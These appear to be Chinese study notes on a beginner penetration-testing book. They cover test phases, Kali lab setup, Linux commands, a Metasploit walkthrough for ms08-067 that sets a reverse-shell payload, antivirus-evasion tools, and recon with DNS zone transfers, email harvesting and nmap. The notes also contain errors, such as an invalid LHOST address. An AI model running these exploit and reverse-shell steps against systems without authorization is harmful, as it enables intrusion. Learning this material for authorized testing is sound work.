# 《渗透测试完全初学者指南》

## <font color = #1E90FF>第零章 渗透测试导论</font>

- 1.明确需求阶段
        和客户面对面沟通，确保双方对渗透项目理解一致。
            a.项目范围  (IP范围，是否可以使用导致服务器瘫痪的exploit....)
            b.测试窗口  (限定工作日，时间。。。)
            c.联系信息  (出现严重问题，联系谁。。。)
            d.支付条款  (支付方式，时间，金额。。保密协议)

- 2.信息收集阶段
        分析各种公开信息    (开源情报分析)

- 3.威胁建模阶段
        利用信息收集阶段获取的信息进行威胁建模，拟定破坏方案。

- 4.漏洞分析阶段
        探测客户系统漏洞，人工分析等

- 5.漏洞验证阶段
        人工，软件进行验证

- 6.深度攻击阶段
        内网资产收集，破解密码，内网渗透等

- 7.书面汇报阶段
        将问题整理为文档，通俗易懂,可分为`执行摘要`和`技术报告`：
        执行摘要:
            a.项目背景  (介绍测试目的，解释技术术语)
            b.整体评估  (问题总结)
            c.风险预测  (安全状况评级，高/中/低，补充相应标准)
            d.调查总结  (对已有安全措施的实际效果总结性描述)
            e.改进建议  (解决现有问题的初步建议)
            f.战略规划  (建议用于增强安全性的长短期规划)
            
        技术报告:
            a.项目简介  (项目范围，联系人信息等)
            b.信息收集  (信息收集发现的问题)
            c.漏洞评估  (漏洞分析阶段发现的所有技术细节)
            d.漏洞验证及攻击方法验证    (技术细节)
            e.深度攻击  (技术细节)
            f.风险及暴露程度分析    (对已知风险的定量分析，评估可能产生的各类损失。)
        结论


## <font color = #1E90FF>第一章 搭建虚拟渗透实验室</font>
    
### 1.安装VMWare
    太傻逼，懒得记。。。
### 2.安装KALI
    版本更新快，百度更靠谱。。。
### 3.网络配置
 VM网络的三种虚拟网络模式
- 桥接  (并入物理机的本地局域网，使用独立的IP)
- NAT   (和物理机共用一个IP)
- 仅主机    (只能和物理机通信)

### 4.安装Nessus
是一款家庭版漏洞扫描程序 `免费版和收费版`,破解。。。。。哈哈哈哈
    
    官网:https://www.tenable.com/downloads/nessus

- Kali中安装步骤:
        文章在Kali栏目下

### 4.MingC编辑器
是用lINUX编译出能在windows上运行的应用程序

- Kali中安装步骤:
        ...

### 5.Hyperion
加密软件，使攻击程序规避反病毒软件的检测

- Kali中安装步骤:
        ...
  
### 6.Veil-Evasion
是一款生成载荷可执行文件的工具，用来绕过常见的防病毒解决方案

- Kali中安装步骤:
        ...

## <font color = #1E90FF>第二章 使用kali Linux</font>
### Linux命令行
        ls      #查看当前目录下文件
        ls -a   #查看当前目录下文件(包括隐藏文件，隐藏目录的前缀 . )
        ls -l   #查看详细详细
### Linux文件系统
<font color = #FF4500>在 Linux的概念里，所有的资源都视为文件</font>
        pwd     #查看当前目录的完整路径
        cd..    #返回上一级

        cd<目录名>      #切换目录
### 用户权限
        adduser mochen          #添加新用户mochen
        su mcohen               #切换到用户mochen

### 文件处理
        touch file              #创建文件
        mkdir                   #创建文件夹
        cp <源文件> [目标文件]   #复制文件
        mv <源文件> [目标文件]   #移动文件
        rm 文件名               #删除文件
        rm -r 文件夹名          #删除文件夹 
        echo 内容               #终端输入内容显示出来
        echo 内容 >file         #将内容保存到file文件中
        cat 文件                #查看文件内的内容
        
        >       #管道符，通过管道符添加的内容会覆盖原本的内容
        >>      #追加，不覆盖原本内容      
### 文件权限
        Linux的权限分为 读(R) 写(W) 执行(X)
        使用chmod命令可以改变访问权限
        7       #全部权限
        6       #读，写
        5       #读，执行
        4       #只读
        3       #写，执行
        2       #只写
        1       #只执行
        0       #拒绝访问
        chmod  7 file 
### 数据处理
        cat file        #查看文件内容
        grep September file     #在file文件中搜索September
### 软件包管理
        apt-get install 软件名          #安装软件

### 进程和服务
<font color = #FF4500>在命令中直接启动，停止，重启系统服务是，如：</font><BR>
```
   service apache2 start
```


### 网络管理
<font color = #FF4500>使用ifconfig查看网络信息</font><BR>

```
ifconfig
```
* ① 网路O接口名称
* ② IPV4地址
* ③ 子网掩码

</figure>
     <figure class="thumbnails">
    

</figure>

#### 设置静态IP地址
<font color = #FF4500>kali中在/etc/network/interfaces中</font><BR>

        kwrite /etc/network/interfaces
<font color = #FF4500>首先要在配置文件中添加网络接口eth0</font><BR>

- ① 声明了eth0采用了静态IP地址
- ② 子网掩码
- ③ 网关
- address IP地址
</figure>
     <figure class="thumbnails">
    

</figure>

#### 查看网络连接
        netstat -antp           #查看开放端口

</figure>
     <figure class="thumbnails">
    

</figure>

### Netcat——————TCP/IP连接的瑞士军刀
        查看kali栏目

## <font color = #1E90FF>第四章 Metasploit框架 </font>
- 启动Metasploit
        msfconsole
- Metasploit的帮助信息
        help route
</figure>
     <figure class="thumbnails">
    

</figure>

### 1.查找Metasploit模块
- <font color = #FF4500>1.1这里以ms08-067为例</font><BR>
</figure>
     <figure class="thumbnails">
    

</figure>
- <font color = #FF4500>1.2模块验证,查看模块详细信息</font><BR>
- <font color = #FF4500>可以看到①这里有具体的位置</font><BR>

        info <模块名称>

</figure>
     <figure class="thumbnails">
        
        
</figure>


  - ①：名称
  - ②：模块路径
  - ③：平台信息
  - ④：权限信息-代表：是否需要事先以目标主机的管理员权限运行exploit，才可以利用这个漏洞
  - ⑤：评级信息：代表该exploit对目标主机的影响程度。
  - ⑥：系统适用性信息，代表exploit适用于测试哪些操作系统
  - ⑦：基本选项-是调用模块时必须设置的选项
  - ⑧：有效载荷-用于帮助Metasploit选取有效载荷
  - ⑨：模块介绍：介绍相应的漏洞的详细介绍
  - ⑩：是在线漏洞数据库的网络连接<BR>
 <font color = #FF0000>1.选定了合适的模块之后，首先指定Metasploit的攻击模块(选择使用哪个)</font><BR>
 
</figure>
     <figure class="thumbnails">
        
</figure>

### 2.设置模块选项
-  <font color = #FF0000>选定了模块之后，还需要对模块进行进一步的设置</font><BR>
        show options

</figure>
     <figure class="thumbnails">
        
</figure>

- <font color = #FF0000>1.返回的清单从左到右依次是，选项名称，选项的默认值，是否是必填项，描述</font><BR>
- ①：用于设定exploit的目标主机---（作用：告诉msf攻击哪台主机）  
        格式： set <待设选项的名称> <选项值>
        例： set RHOST 192.168.2.134
- ②：用于设定攻击对象的具体端口
- ③：默认值就行了。。。。
- ④：Exploit Target的id ：用于设定目标主机的操作系统及具体版本号
        也可以使用 show targets 查看具体信息

### 3.有效载荷
<font color = #FF0000>到这一步，说明准备工作已经完成的差不多了，下面开始选择有效载荷</font><BR>
- <font color = #FF0000>3.1查找兼容的有效载荷</font><BR>
        show payloads
- <font color = #FF0000> 注：即使我们忘记了设置有效载荷的某些选项，Metasploit也会给exploit模块分配默认的有效载荷和相关的默认设置</font><BR>
       

</figure>
     <figure class="thumbnails">
        
</figure>

### 3.试运行    
        run 或者 exploit 
        exit    #退出
### 4.Shell的种类 
- <font color = #FF0000>1.绑定型</font><BR>
就是令计算机启动命令行接口的后台程序，并且在本地监听网络端口的shell在使用这种shell时候，攻击角色的主机连接到目标主机的监听端口上发送遥控命令<BR>
<font color = #FF0000></font><BR>
<table><tr><td bgcolor=PowderBlue>注：如果目标主机部署了防火墙，绑定型shell的效果会大打折扣</td></tr></table>

- <font color = #FF0000>1.反射型</font><BR>
反射型shell会指定发起连接，自动连入攻击主机，在使用反射型shell时，首先在攻击主机是打开一个端口，以应答目标主机发起的回话连接
<table><tr><td bgcolor=PowderBlue>注：在穿透防火墙方面，反射型比绑定型成功率高</td></tr></table>

### 5.手动设置有效载荷
在上一步中通过show payloads查找有效载荷，下面手动设置选定的载荷

```
        语法： set payload <选定的载荷名称> 
        例： set payload windows/shell_reverse_tcp
```

</figure>
     <figure class="thumbnails">
        
</figure>

- ①：设置选定的载荷
- ②：查看详细详细
- ③： 运行kali系统的主机IP
        set LHOST 12.168.2.307
 ### 6.运行     
        run 或者 exploit 
        exit    #退出
 ### 7.其他

- ①：关闭shell的命令————Ctrl+C

## <font color = #1E90FF>第五章 信息收集</font>
本章介绍渗透测试的详细收集工作

### <font color = #FF0000>Netcraft</font>
- 一个网站
        https://www.netcraft.com
- ①记录网站的在线时间
- ②分析web服务的底层信息
- ③支持浏览器扩展
</figure>
     <figure class="thumbnails">
        
</figure>

### <font color = #FF0000>Whois</font>
__所有的域名注册上都会保留自己注册过的域名记录__
  
```
语法： whois 域名
例： whois baidu.com
```      
</figure>
     <figure class="thumbnails">
        
</figure>

- ① 域名解析服务器

### <font color = #FF0000>DNS侦查</font> 
__我们可以通过DNS系统了解既定域名的很多信息，简单来说，DNS服务器的作用就是把URL中的域名转换为相应的IP__

- 1.nslookup—查询域名
        语法： nslookup 域名
</figure>
     <figure class="thumbnails">
        
</figure>

- ①返回了IP地址

- 2.Host—查询DNS信息
        语法： host -t ns domain
        例：    host -t ns baidu.com
</figure>
     <figure class="thumbnails">
        
</figure>

- 2.1 Host-区域传输
—__所谓区域传输,就是某个域的DNS服务器允许其他域名解析服务器复制他的全部DNS__
        语法： host -l 域名 DNS服务器名
        例：    host -l baidu.com ns2.baidu.com
</figure>
     <figure class="thumbnails">
        
</figure>

### <font color = #FF0000>收集邮箱地址</font> 
- 1.theHarvester——在搜索引擎中只能收集邮箱
        语法：  theharvester -d 域名 -l 500 -b all
        例：    theharvester -d baidu.com -l 500 -b all

- 2. Maltego
```
以后再做。。。花里胡哨
```  


### <font color = #FF0000>端口扫描</font> 
#### 手动端口扫描
- 可以利用 Netcat，Telnet之类的来进行人工扫描
        语法： nc -vv IP
        例：   nc -vv 192.168.2.197
<table><tr><td bgcolor=PowderBlue>懒得开靶机。。</td></tr></table>

### <font color = #FF0000>Nmap端口扫描</font> 

- __SYN扫描<BR>__
__是一种模拟TCP握手的端口扫描技术<BR>__
 __在进行扫描时，Nmap向远程主机发送SYN数据包，并等待对方的SYN-ACK数据<BR>__
 __不过对方技术发送了SYN-ACK数据，它也不会回复ACK数据完成三次握手<BR>__
<table><tr><td bgcolor=PowderBlue>注：如果发送了SYN没有收到SYN-ACK数据就说明主机不在线</td></tr></table>

```
命令： nmap -sS 主机名
例：   nmap -sS 192.168.2.207
```  
- 可以看见扫描出了端口和对应的服务，存活的主机
</figure>
     <figure class="thumbnails">
        
</figure>

- <font color = #FF0000>虽然SYN扫描有着某种隐蔽性，但不能显示出打开这些端口程序的版本，这个时候可以使用完整的TCP扫描功能<BR>- sT 或者版本检测 -sV</font> 

```
命令： nmap -sV 主机名
例：   nmap -sV 192.168.2.207
命令： nmap -sT 主机名
例：   nmap -sT 192.168.2.207
```  
</figure>
     <figure class="thumbnails">
        
        
</figure>
<table><tr><td bgcolor=PowderBlue>注：nmap分析的结果可能不太准确</td></tr></table>

- __UDP扫描<BR>__
顾名思义，SYN扫描和完整的TCP扫描都不能扫描UDP端口。<BR>
UDP协议采用的是无连接的方式传输数据，因此UDP端口的扫描逻辑和TCP端口的扫描逻辑存在明显区别<BR>
__在进行UDP扫描<BR>__
向既定端口发送UDP包，不过UDP协议的应用程序有着各自不同的数据传输协议<BR>
因此，在远程主机正常回复该数据的情况下，能过确定端口开放状态<BR>
如果端口处于关闭状态，Nmap应该能够收到ICMP协议的‘端口不可到达’信息<BR>

```
命令： nmap -sU 主机名
例：   nmap -sU 192.168.2.207

``` 
</figure>
     <figure class="thumbnails">
        
       
</figure>

- __扫描指定端口<BR>__

```
命令： nmap -sS -p 端口 主机名
例：   nmap -sS -p 80  192.168.2.207

``` 
</figure>
     <figure class="thumbnails">
